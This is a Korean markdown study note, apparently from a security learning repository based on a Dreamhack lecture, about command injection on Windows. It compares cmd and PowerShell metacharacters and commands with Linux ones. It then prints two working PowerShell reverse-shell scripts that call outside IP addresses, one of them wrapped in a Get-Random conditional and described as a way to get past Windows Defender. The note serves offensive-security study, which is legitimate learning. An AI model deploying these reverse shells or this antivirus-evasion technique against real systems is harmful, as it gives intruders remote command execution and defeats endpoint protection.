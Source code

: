 # Command Injection for Windows

<br/>

## Windows: 공격 사전 지식
### 윈도우 메타 문자
* 윈도우에서 명령어를 실행하기 위해 **cmd.exe** 또는 **파워셸**(Powershell)을 사용할 수 있음
    - 같은 운영체제 상에서 구동되지만 각 인터프리터에서 제공하는 문자와 기능은 서로 다름
* 윈도우와 리눅스의 메타 문자 비교
    | Linux | Windows (cmd, powershell) | 설명 |
    |---|---|---|
    | ```-A```, ```--A``` | ```/c``` | 커맨드 라인 옵션 |
    | ```$PATH``` | ```%PATH``` | 환경 변수 |
    | ```$ABCD``` | ```$ABCD``` (powershell only) | 쉘 변수 |
    | ```;``` | ```&```(cmd only), ```;```(powershell only) | 명령어 구분자 |
    | ```echo $(id)``` | ```for /f "delims=" %a in ('whoami') do echo %a``` | 명령어 치환 |
    | ```> /dev/null``` | ```> NUL```(cmd only), ```\| Out-Null```(powershell only) | 출력 제거 |
    | ```command \|\| true``` | ```command & rem```(cmd only), <br/>```command -ErrorAction SilentlyContinue```(poershell Cmdlet only) | ```command``` 명령어 오류 무시 |

<br/>

### 윈도우 명령어
* 윈도우와 리눅스의 명령어 비교
    | Linux | Windows | 설명 |
    |---|---|------|
    | ls | dir | 디렉토리(폴더) 파일 목록 출력 |
    | cat | type | 파일 내용 출력 |
    | cd | cd | 디렉토리(폴더) 이동 |
    | rm | del | 파일 삭제 |
    | mv | move | 파일 이동 |
    | cp | copy | 파일 복사 |
    | ifconfig | ipconfig | 네트워크 설정 |
    | env, export | set | 환경변수 설정 |
    - 자세한 윈도우 명령어는 [Windows Command 추가 자료](https://github.com/augustf86/Today_I_Learn/blob/main/Security/Supplement/Windows%20Command.md)를 참고

<br/><br/>

## 윈도우 리버스 셸
* 윈도우도 리눅스와 같이 리버스 셸 공격이 가능하지만, 다음과 같은 차이점이 존재함
    | Linux | Window |
    |---|---|
    | 기본적으로 명령어와 스크립트를 실행하는데 있어 어떠한 제약도 존재하지 않음 | 윈도우 디펜더(Windows Defender)가 악성 스크립트를 감지하고 이를 실행하지 않음 *→ 우회 필요* |
* 리버스 셸 스크립트 예시
    ```powershell
    # Nikhil SamratAshok Mittal: http://www.labofapenetrationtester.com/2015/05/week-of-powershell-shells-day-1.html
    
    $client = New-Object System.Net.Sockets.TCPClient('10.10.10.10',80);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex ". { $data } 2>&1" | Out-String ); $sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
    ```
    - 악성 데이터가 있어 백신에 의해 차단되었다는 메시지("This script contains malicious content and has been blocked by your antivirus software")와 함께 실행에 실패함


<br/><br/>

## 윈도우 디펜더 우회
* 윈도우 디펜더는 악성 코드가 운영 체제에서 실행되는 것을 방지함 → 리버스 셸을 통한 공격을 수행하기 위해서는 **윈도우 디펜더 우회는 필수**임
* 리버스 셸 스크립트를 실행하는 우회 코드
    ```powershell
    $client = New-Object System.Net.Sockets.TCPClient("123.123.124.124",1234);
    $x = Get-Random; # Get-Random 함수를 이용하여 무작위 값을 생성함
    if ($x -ge 1) { # 랜덤으로 생성한 값이 1보다 큰 값인지 확인한 후에 리버스 셸 코드를 실행함
        $stream = $client.GetStream();
        [byte[]]$bytes = 0..65535|%{0};
        while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0) {
            $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);
            $sendback = (iex $data 2>&1 | Out-String );
            $sendback2 = $sendback + "PS " + (pwd).Path + "> ";
            $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
            $stream.Write($sendbyte,0,$sendbyte.Length);
            $stream.Flush()
        };
        $client.Close();
    } else {
        $client.Close();
    }
    ```
    - ```Get-Random``` 함수를 이용하여 생성한 무작위 값이 1보다 큰 값인지 확인한 후에 리버스 셸 코드를 실행함 → 윈도우 디펜더는 이 조건문이 함수 실행 결과에 영향을 받는 것으로 판단하여 스크립트 실행을 허용함
    - 실행 결과
        + 우회 스크립트가 성공적으로 동작하면 리버스 셸이 동작하고 서버에 시스템 명령어를 실행시키고 그 결과를 확인할 수 있음

<br/><br/><br/><br/>
### 🔖 출처
* [드림핵 Web Hacking Advanced - Server Side] 📌 [ExploitTech: Command Injection for Windows](https://dreamhack.io/lecture/courses/301)
